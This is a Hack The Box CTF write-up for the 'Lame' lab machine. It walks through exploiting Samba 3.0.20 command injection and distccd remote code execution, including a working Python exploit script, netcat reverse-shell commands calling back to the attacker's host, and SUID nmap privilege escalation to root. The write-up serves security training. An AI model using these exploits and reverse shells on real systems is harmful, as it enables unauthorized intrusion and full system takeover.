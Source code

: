 ```yaml
---
layout: single_c
title:  "Hack The Box - Lame Writeup"
date:   2020-06-26 10:43:16 +0530
categories: HTB
tags: OSCP
toc: true
classes: wide
---
```

Hack The Box - Lame
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/lame/lame.png){: .align-center}


## Enumeration

Start with an `nmap` scan.

#### Nmap
```bash
Nmap scan report for lame.com (10.10.10.3)
Host is up, received user-set (0.26s latency).
Scanned at 2020-06-21 02:01:21 EDT for 582s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 21 02:11:03 2020 -- 1 IP address (1 host up) scanned in 583.83 seconds
```

We have quite a few attack vectors.

### vsftpd 2.3.4

```bash
kali@kali:~$ searchsploit vsftpd 2.3.4
kali@kali:~$ searchsploit vsftpd 2.3.4 | cut -b -100
----------------------------------------------------------------------------------------------------
 Exploit Title                                                                                      
                                                                                                    
----------------------------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            
----------------------------------------------------------------------------------------------------
Shellcodes: No Result
```

We have a back door in this version of `ftp` which can be triggered by sending `:)` at the end of username. But this exploit failed and did not give a shell.  

# Method 1 (Samba 3.0.20 Without Metasploit)

#### smbmap
```bash
kali@kali:~/Desktop/htb/lame$ smbmap -H lame.com
[+] Finding open SMB ports....
[+] User SMB session established on lame.com...
[+] IP: lame.com:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbmap` shows that the share `/tmp` is accessible. I couldn't find anything interesting in there. We can also see that the `samba` version is `3.0.20`.

#### Searchsploit
```bash
kali@kali:~$ searchsploit samba 3.0.20 | cut -b -150
------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                        
                                                                                                                                                      
------------------------------------------------------------------------------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                    
Samba < 3.0.20 - Remote Heap Overflow                                                                               
------------------------------------------------------------------------------------------------------------------------------------------------------
```

There is a remote code execution vulnerability in this version of `samba`. And there is an msf exploit for this.

### Understanding the metasploit code

Going through the short exploit, we can check the exploit function to see how it works.

```perl
def exploit

		connect
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

The payload is passed in [backticks](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands)(which is used to execute commands) within the `username` with the added `nohup` command which  executes another command, and instructs the system to continue running it even if the session is disconnected. But for some reason it was not working with `smbclient`. The username was getting capitalized.

We can overcome this by first connecting to `smb` and then passing the `username` in the `logon` command. If you are using kali 2020, you will have to pass the `--option='client min protocol=NT1' ` to `smbclient`

```bash
kali@kali:~/Desktop/htb/lame$ sudo smbclient \\\\lame.com\\tmp --option='client min protocol=NT1'                    
Enter WORKGROUP\root's password:                                                                                     
Anonymous login successful                                                                                          
Try "help" to get a list of possible commands.                                                                       
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.34 1337`"                                                            
Password:    
```

Wait for a connection using `nc`

```bash
kali@kali:~$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 34789
id
uid=0(root) gid=0(root)
```

We are root!

I also found a [python script](https://github.com/amriunix/CVE-2007-2447) for exploiting this. We can also achieve root using this script.
# Method 2 (DistCC Daemon RCE)

There is a `distcc` daemon running on port `3632`. There is a `metasploit` module and `nmap` script available for this. 
```bash
kali@kali:~/Desktop/htb/lame$ searchsploit distcc | cut -b -150
---------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                              |  Path
                                                                            | (/usr/share/exploitdb/)
---------------------------------------------------------------------------- ----------------------------------------
DistCC Daemon - Command Execution (Metasploit)                              | exploits/multiple/remote/9915.rb
---------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Looking at the nmap script we can see how the script creates the payload

```bash
 local cmds = {
    "DIST00000001",
    ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
    "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
    "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
    "DOTI00000001A\n",
  }
```
The length of the command is formated to 8 characters and added before the command. 

With the help of this [article](https://vulners.com/openvas/OPENVAS:1361412562310103553) wrote a python script to exploit it. The output contains some output of the `distcc` daemon. We have to add a separator before and after our command to strip out the output. 

```python
import socket
while True:
        cmd = input("cmd>")
        # Separator to pull out the output
        sep = "sep123"
        new_cmd = f"echo -n {sep};{cmd};echo -n {sep}"
        payload = f"""DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV{len(new_cmd):8x}{new_cmd}ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A"""
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('lame.com', 3632))
        s.sendall(payload.encode())
        print(s.recv(1000).decode().split(sep)[1].strip())
```

## User Shell

Start a `nc` listener to receive the shell

```bash
kali@kali:~/Desktop/htb/lame$ python3 exp.py
cmd>id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
cmd>ls
5194.jsvc_up
distcc_d115ebee.stdout
distcc_d13febee.stderr
distccd_d6bdebee.o
distccd_d6c4ebee.i
cmd>nc -e /bin/sh 10.10.14.34 1337
```

```bash
kali@kali:~/Desktop/htb/lame$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 38311
python -c 'import pty;pty.spawn("bash")'
aemon@lame:/tmp$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

## Root shell

Going through the system we can see that we have an older version of `nmap` binary with `suid` bit set. We can use this get shell.

```bash
daemon@lame:/tmp$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
sh-3.2# cat /root/root.txt
cat /root/root.txt
92caac**********************
```

And we are root.